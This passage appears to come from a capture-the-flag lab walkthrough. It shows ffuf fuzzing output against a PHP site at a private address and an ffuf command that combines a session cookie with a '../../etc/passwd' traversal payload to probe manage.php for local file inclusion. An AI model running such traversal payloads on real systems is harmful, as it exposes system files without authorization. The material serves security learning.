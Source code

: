 ``` 
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 403
________________________________________________

config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
search.php              [Status: 200, Size: 1091, Words: 47, Lines: 50]
results.php             [Status: 200, Size: 1056, Words: 43, Lines: 55]
index.php               [Status: 200, Size: 917, Words: 43, Lines: 43]
manage.php              [Status: 200, Size: 1210, Words: 43, Lines: 51]
welcome.php             [Status: 302, Size: 0, Words: 1, Lines: 1]
display.php             [Status: 200, Size: 2961, Words: 199, Lines: 42]
.                       [Status: 200, Size: 917, Words: 43, Lines: 43]
session.php             [Status: 302, Size: 0, Words: 1, Lines: 1]
:: Progress: [34258/34258] :: Job [1/1] :: 537 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

Navigating to the config.php will end up in a blank page. Navigating to either the welcome.php or session.php will somehow log us in. Two new tabs are introduced to us, Add Record and Log Out but, clicking on those will not bring us anywhere. Looking at the developer tools > storage, we obtained a session cookie. I do see a warning message saying "File does not exist". It could mean that we can do a Local File Inclusion (LFI).

An example of a vulnerable PHP code that could lead to LFI is:

`example.com/?page=filename.php`

For our issue, we do not know the actual name/value that carries our "page". I'm going to fuzz for the value and do a Directory (Path) Traversal.

- -b: Cookie data "Name1=Value1"
- -fs: Filter HTTP response size

> Doing this without the session cookie will not work. We take the session cookie from the developer tool. Do filter the size if not, you will missed it.

``` 
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://192.168.50.108/manage.php?FUZZ=../../../../../../../../etc/passwd -b "PHPSESSID=622uuknu5m2krs25evhm9uo7qc" -fs 1341 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.50.108/manage.php?FUZZ=../../../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
 :: Header           : Cookie: PHPSESSID=622uuknu5m2krs25evhm9uo7qc
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 1341
```